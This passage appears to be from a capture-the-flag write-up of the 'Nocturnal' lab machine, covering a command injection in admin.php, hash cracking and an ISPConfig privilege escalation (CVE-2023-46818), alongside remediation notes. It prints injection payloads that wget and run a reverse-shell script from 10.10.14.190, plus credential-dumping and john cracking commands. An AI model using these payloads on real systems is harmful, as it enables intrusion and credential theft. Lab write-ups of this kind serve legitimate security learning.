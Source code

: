 Using this knowledge and testing with commands with characters like URL encoded versions of newline (%0a) and tab (%09) can allow for a reverse shell to be downloaded and then ran. POST payloads to `admin.php` in Burp:

```console
password=%0abash%09-c%09"wget%0910.10.14.190:9001/shell.sh"&backup=

password=%0abash%09-c%09"bash%09shell.sh"&backup=
```

This provided a shell as `www-data`. From previously looking at the various PHP files it was noted that a SQLite database was in use. The file was transferred and then queried to gather hashes:

```bash
sqlite3 nocturnal_database.db "SELECT username,password FROM users" -separator : > db-creds.txt
```

The user Tobais' hash was cracked and his password was valid for SSH access:

```bash
john --format=raw-MD5 -w=/usr/share/wordlists/rockyou.txt db-creds.txt
```

> __Prevent:__ : "As of PHP 7.4.0, `command` may be passed as array of command parameters. In this case the process will be opened directly (without going through a shell) and PHP will take care of any necessary argument escaping."[^2]
{: .prompt-tip}

![image](https://i.postimg.cc/SKpZtWBC/nocturnal-command-array.png){: width='951' height='207'}

In addition to passing `$command` as an array I also added `%` to the list of blocked characters because while testing this the URL encoded commands passed to `zip`'s password parameter were applied as decoded input for the password.

![image](https://i.postimg.cc/Vs43rH3T/nocturnal-cleanentry.png){: width='612' height='123'}

That is, `$password` payload that was no longer injectable (with just the array of parameters passed):

```bash
%0abash%09-c%09"wget%0910.10.14.190:9001/shell.sh"
```

With related password that was used to successfully access the protected backup:

```bash
unzip -P $'\nbash\t-c\t&quot;wget\t10.10.14.190:9001/shell.sh&quot;' backup_2025-08-29.zip
```

#### Privilege Escalation (CVE-2023-46818)

After logging in as Tobias I noticed there were two unusual accounts with shell access. Searching these names, I was quickly able to find exploits related to it for [CVE-2023-46818](https://github.com/rvizx/CVE-2023-46818?tab=readme-ov-file). Netstat showed a service running on loopback 8080, so a port forward was setup and I was greeted with a login page for ISPConfig. Tobais' credentials were reused with the username `admin` so the exploit was easily confirmed to provide root access.

![image](https://i.postimg.cc/3RRznrTG/nocturnal-privesc.png){: width='783' height='553'}


[^1]: [https://cwe.mitre.org/data/definitions/200.html#Demonstrative+Examples](https://cwe.mitre.org/data/definitions/200.html#Demonstrative+Examples)
[^2]: [https://www.php.net/manual/en/function.proc-open.php](https://www.php.net/manual/en/function.proc-open.php)